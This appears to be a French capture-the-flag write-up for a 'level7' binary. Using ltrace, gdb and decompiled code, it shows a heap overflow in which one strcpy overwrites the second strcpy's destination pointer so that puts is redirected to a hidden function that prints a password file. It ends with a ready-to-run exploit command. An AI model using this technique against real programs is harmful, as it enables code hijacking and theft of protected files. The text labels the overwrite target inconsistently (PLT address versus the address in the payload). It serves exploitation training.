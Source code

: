 # Malloc Exploitation

En décompilant l'exécutable, on remarque plusieurs appels à `malloc`, et deux appels à `strcpy`. À la fin du programme, l'exécutable fait un appel à `puts`, juste après avoir ouvert le fichier `.pass` avec `fopen`. La fonction qui `m`, qui n'est jamais appelée, nous permettrait d'afficher le contenu de `.pass` à partir de la variable `c`.

Notre but est donc de remplacer l'adresse de la fonction `puts`, par l'adresse de la fonction `m`. Pour cela, commençons par trouver les adresses retournés par `malloc`. Nous pourrions le faire avec `gdb` comme dans l'exercice précédent, mais `ltrace` nous permet de le faire plus rapidement.
```
> ltrace ./level7
__libc_start_main(0x8048521, 1, 0xbffff7e4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                 = 0x0804a008
malloc(8)                                                                 = 0x0804a018
malloc(8)                                                                 = 0x0804a028
malloc(8)                                                                 = 0x0804a038
strcpy(0x0804a018, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
Nous savons donc que nos allocations commencent à partir de `0x0804a008`. Les premières instructions du programmes sont importantes, car elle lui permettent d'écrire des adresses mémoires dans nos `buffers` de `malloc`.
```c
puVar1 = (undefined4 *)malloc(8);
*puVar1 = 1;
uVar2 = malloc(8);
puVar1[1] = uVar2;
puVar3 = (undefined4 *)malloc(8);
*puVar3 = 2;
uVar2 = malloc(8);
puVar3[1] = uVar2;
```
Passons à présent sur `gdb` et imprimons nos emplacements mémoires alloués par `malloc` juste avant le premier appel à `strcpy`.
```
> gdb level7 --args "AAAA" "BBBB"
[...]
> (gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
   0x08048527 <+6>:	sub    $0x20,%esp
   0x0804852a <+9>:	movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret    
End of assembler dump.
> (gdb) b *0x080485a0
Breakpoint 1 at 0x80485a0
> (gdb) r
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x080485a0 in main ()
```
```
> (gdb) x/20wx 0x804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
            ^           ^
            *puVar1 = 1 puVar1[1] = uVar2
                        
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
            ^           ^
            *puVar3 = 2 puVar3[1] = uVar2
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
```
Nous allons donc profiter du double appel à `strcpy` pour remplacer l'adresse de la fonction `puts` par l'adresse de la fonction `m`. Pour cela, il faut comprendre le fonctionnement des deux `strcpy`.

---

**Premier `strcpy`**

Copie notre premier argument à l'adresse contenue dans `puVar1[1]`.
```c
strcpy(puVar1[1], envp[1]);
```

**Deuxième `strcpy`**

Copie notre deuxième argument à l'adresse contenue dans `puVar3[1]`.
```c
strcpy(puVar3[1], envp[2]);
```

On peut visuellement le représenter de cette manière :

```
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
                        ^
                        adresse de copie
                        du premier strcpy           
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
            ^
            le premier strcpy
            copie ici
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
                        ^
                        adresse de copie
                        du deuxième strcpy
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
            ^
            le deuxième strcpy
            copie ici
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
```

---

Notre objectif est donc de remplacer l'adresse contenue dans `puVar3[1]` par l'adresse de la fonction `puts` et ansi, "tromper" le second `strcpy` en le faisant copier à l'adresse de la fonction `puts`. Pour cela, on peut créer un `overflow` grace au premier `strcpy` et ainsi écraser l'adresse de copie du deuxième `strcpy`.

Notre premier argument doit donc contenir un certains nombre de caractères pour atteindre l'adresse de copie du deuxième `strcpy`, ainsi que l'adresse de la fonction `puts`.

---

On peut obtenir les adresses des fonctions `puts` et `m` avec `gdb`.

**Fonction `puts`**

```
> (gdb) disas main
[...]
0x080485f7 <+214>:	call   0x8048400 <puts@plt>
[...]
```
L'adresse de la fonction `puts` est `0x8048400`.

**Fonction `m`**

```
> (gdb) x m
0x80484f4 <m>:	0x83e58955
```
L'adresse de la fonction `m` est `0x80484f4`.

---

Visuellement, voici à quoi doit ressembler la mémoire après l'appel au premier `strcpy` :
```
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011           
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
            ^
            le premier strcpy
            copie ici
0x804a028:	0x41414141	0x08048400	0x00000000	0x00000011
                        ^
                        adresse de copie
                        du deuxième strcpy
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
```

En deuxième arguement, nous avons simplement à fournir l'adresse de la fonction `m`. Finalement, voici la commande à exécuter :
```
./level7 `python -c 'print "A"*20 + "\x28\x99\x04\x08"'` `python -c 'print "\xf4\x84\x04\x08"'`
```
